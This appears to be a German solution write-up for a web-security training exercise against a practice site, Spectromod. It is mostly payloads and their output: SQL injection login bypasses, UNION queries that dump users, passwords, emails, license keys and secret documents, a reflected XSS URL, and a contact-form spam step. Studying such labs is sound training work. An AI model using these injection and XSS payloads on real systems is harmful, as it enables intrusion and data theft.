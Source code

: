 
== Übung Spectromod

=== URL Manipulation
Der noch nicht veröffentlichte Geschäftsbericht ist unter der URL verfügbar.

    https://www.spectromod.ch/schulung/spectromod/downloads/geschaeftsbericht-2011.doc

=== Lizenzschlüssel:

* Login via SQL-Injection mit Benutername und Passwort: test' or '1' = '1
* Der Loginstate wird auf 1 gesetzt. Danach mit admin anmelden.
* Passwort mit Brute-Force und SQL-Injection via Python-Script suchen. Resultat: admin/ADMIN

    Suprex GmbH: ACX21-KVA12-QXZ22-BER98
    Kantons Labor Zuerich: HAK00-VIR39-CVB12-LKE93
    Radix AG: FER11-LOB91-QIP76-LIP18
    Labor Analysen AG: KAP78-MIA98-AVK56-SIA18


=== Kundendaten

* Auslesen via SQL-Injection im Download-Bereich
.  SQL Injection:

   a' OR '1%' = '1

. Informationen über SQL Schema via UNION

   ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spectromod User und Passwörter auslesen

   ' UNION SELECT concat(user, ' - ', password), '', 1 from spectromod.customer WHERE  '1%' = '1

    admin - ADMIN
    Suprex - e2fc714c47
    KtLaborZH - loewe
    Radix - winter2012
    LabAn - LabAn2011
    andrea.leuenberger - rOPaL10
    peter.sturm - ORox311%KV

=== Baupläne

* Auslesen via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'document' and '1%' = '1

     id
     title
     filename
     type

. Alle Dokumente auslesen

    a' UNION SELECT concat(id, ' - ', title, ' - ', filename, ' - ', type), '', 1 from document where '1%' = '1

    1 - Preisliste - preisliste-2010.xls - public
    2 - Geschaeftsbericht 2009 - geschaeftsbericht-2009.pdf - public
    3 - Organigramm - organigramm.pdf - public
    4 - IT-Netzwerk - netzwerk_001.pdf - internal
    6 - Platine Spectromod MASS 50 DX - platine.pdf - secret
    7 - Lohnliste - loehne.xls - internal
    8 - Geschaeftsbericht 2010 - geschaeftsbericht-2010.doc - public
    9 - Referenzen - referenzen.doc - public
    10 - Backup Notiz - datenbank-backup.pdf - internal
    11 - Brief Kundenplattform - welcome.doc - internal
    12 - Geschaeftsbericht2013 - geschaeftsbericht-2013.doc - intern

Platine ist unter https://www.spectromod.ch/schulung/spectromod/downloads/platine.pdf
Netzwerk ist unter https://www.spectromod.ch/schulung/spectromod/downloads/netzwerk_001.pdf

=== E-Mail

* Auslesen aller Kunden via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'customer' and '1%' = '1

    id
    customer
    user
    email
    password
    key

. Admin E-Mail auslesen

   ' UNION SELECT concat(email, ' - ', password), '', 1 from spectromod.customer WHERE user = 'admin' AND '1%' = '1

    admin@spectromod.ch - ADMIN

. Geschäftsführer (sichtbar im Organigram) E-Mail auslesen

   ' UNION SELECT concat(user, ' - ', email, ' - ', password), '', 1 from spectromod.customer WHERE '1%' = '1

    peter.sturm - peter.sturm@spectromod.ch - ORox311%KV

=== Root Passwort

* In der Datei https://www.spectromod.ch/schulung/spectromod/downloads/datenbank-backup.pdf findet man das Root Passwort

    root / spectromod

. Versuch via MySQL-Client eine Verbindung aufzubauen funktioniert nicht

=== XSS

     https://www.spectromod.ch/schulung/spectromod/content/index.php?id=1&image=%22%3E%3C/img%3E%3Cscript%3Ealert(%27hello%27);%3C/script%3E%3Cimg%20src=%22


=== Spam

* Post-Request mit Parameter name, email, subject, message via Python Script auf https://www.spectromod.ch/schulung/spectromod/kontakt/do-mail.php

== Weitere Versuche

*  Auslesen via SQL-Injection im Download Bereich


. MySQL User auslesen

  ' UNION SELECT user(), '', 1 from DUAL WHERE '1%' = '1

  myspectromod@localhost

. Versuch alle MySQL-User auszulesen und an Root Rechte zu kommen

    ' UNION SELECT CONCAT(QUOTE(user),'@',QUOTE(host)), '', 1 from mysql.user WHERE  '1%' = '1

    Funktioniert nicht. Zu wenig Privilegien

. MySQL Privilegien des Benutzers myspectromod auslesen

  ' UNION SELECT concat(grantee, ' - ',  privilege_type, ' - ', is_grantable), '', 1 FROM information_schema.user_privileges WHERE '1%' = '1

    USAGE (no privileges).

. MySQL Version auslesen

    ' UNION SELECT @@version, '', 1 from DUAL WHERE '1%' = '1

    5.5.49-MariaDB-1ubuntu0.14.04.1

. Check ob die Version irgenwelche Sicherheitslücken hat

    https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-3477

    Version 5.5.49 hat eine Sicherheitslücke mit CVSS Score 7.2 die mit 5.5.50 repariert wurde.
    MariaDB 5.5.50 Erscheinungsdatum ist 2016-06-17, MariaDB 5.5.49 am 2016-04-22.

    Im Git im Branch 5.5 Commits zwischen diesem Zeitraum überprüfen.
    https://github.com/MariaDB/server/commits/5.5

    Kandidat:
    https://github.com/MariaDB/server/commit/9d72fb4af0d87f6a69a3ccb9202b4029acf2bd56

